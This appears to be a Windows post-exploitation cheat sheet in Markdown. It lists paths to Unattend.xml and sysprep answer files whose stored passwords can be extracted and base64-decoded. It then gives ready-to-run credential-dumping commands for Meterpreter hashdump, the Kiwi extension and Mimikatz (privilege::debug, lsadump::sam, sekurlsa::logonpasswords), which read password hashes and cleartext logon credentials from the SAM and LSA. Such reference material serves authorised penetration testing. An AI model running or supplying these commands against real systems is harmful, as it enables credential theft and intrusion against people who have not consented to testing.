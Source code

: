 
## Password in configuration file (Unattend.xml)

An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.

```sh
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.xml
C:\Windows\system32\sysprep\sysprep.xml
```

Extract password and decode it (from base64)

---

## Credential Dumping (Mimikatz - Kiwi - Hashdump)

Prerequisites: User must be a member a local Administrators.

**(1) hashdump (Metasploit - Meterpreter)**

```sh
# You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process
migrate <PID explorer.exe>
hashdump
```

**(2) Kiwi (Metasploit - Meterpreter)**

```sh
# You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process
migrate <PID explorer.exe>

load kiwi
# Retrieve all credentials (parsed)
creds_all 
# NTLM hashes for all of the user accounts on the system
lsa_dump_sam
# Find the clear text passwords
lsa_dump_secrets
# Note: from the Windows version 8.0+, windows don’t store any plain text password.
# So, it can be helpful for the older version of the Windows.
```

**(3) Mimikatz**

```cmd
# 1. Upload mimikatz.exe

# 2. Execute
mimkatz.exe

:: Get debug rights. This should be a standard for running mimikatz as it needs local administrator access
:: This should return Privilege '20' OK.
privilege::debug 

:: NTLM hashes for all of the user accounts on the system
lsadump::sam
:: To find the clear text passwords, but it's not always possible
sekurlsa::logonpasswords  
```

---